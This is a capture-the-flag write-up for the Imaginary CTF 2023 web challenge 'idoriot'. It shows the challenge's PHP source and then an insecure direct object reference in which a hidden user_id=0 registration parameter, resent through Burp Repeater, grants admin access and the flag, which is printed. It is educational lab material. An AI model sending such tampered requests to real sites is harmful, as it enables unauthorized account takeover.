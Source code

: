 ```yaml
---
CTF: Imaginary CTF 2023
Challenge Name: idoriot
Category: Web
Date: 22/07/23
Author: tirefire
Points: 100
Solves: 474
---
```


### Description
>Some idiot made this web site that you can log in to. The idiot even made it in php. I dunno.

Challenge name indicates an [IDOR](https://portswigger.net/web-security/access-control/idor) vulnerability. There's no source code, so let's investigate [the site](http://idoriot.chal.imaginaryctf.org)

## Recon
We are immediately greeted by a login screen. I would normally try some default creds, SQLi etc but based on the challenge name, I decide to skip straight to user registration.

I register `cat:cat` and see a message `Welcome, User ID: 154308130`.

The source code is also displayed on-screen.
```php
session_start();

// Check if user is logged in
if (!isset($_SESSION['user_id'])) {
    header("Location: login.php");
    exit();
}

// Check if session is expired
if (time() > $_SESSION['expires']) {
    header("Location: logout.php");
    exit();
}

// Display user ID on landing page
echo "Welcome, User ID: " . urlencode($_SESSION['user_id']);

// Get the user for admin
$db = new PDO('sqlite:memory:');
$admin = $db->query('SELECT * FROM users WHERE user_id = 0 LIMIT 1')->fetch();

// Check if the user is admin
if ($admin['user_id'] === $_SESSION['user_id']) {
    // Read the flag from flag.txt
    $flag = file_get_contents('flag.txt');
    echo "<h1>Flag</h1>";
    echo "<p>$flag</p>";
} else {
    // Display the source code for this file
    echo "<h1>Source Code</h1>";
    highlight_file(__FILE__);
}
```

Accordingly, our goal is to gain access to the admin's account. If our `$_SESSION['user_id']` matches that of the admin, we get the flag.

## Solution
Tried to MD5 the user ID to see if matches the session value: `5b2deaedb34c1bbd66856710f647c1db`.
```bash
echo -n "154308130" | md5sum
87cd5ed599b872262ff865945845cd71  -
```

No match, tried to register another user `cat2:cat2` and get `Welcome, User ID: 275541975` with a session id `ef64cdce8f1247feb73ceddf86027774`.

Checking the registration login request, the user ID is specified.
```js
username=cat2&password=cat2&user_id=275541975
```

Tried sending the registration request to burp's repeater.
```js
username=cat3&password=cat3&user_id=0
```

The flag is displayed.
```txt
ictf{1ns3cure_direct_object_reference_from_hidden_post_param_i_guess}
```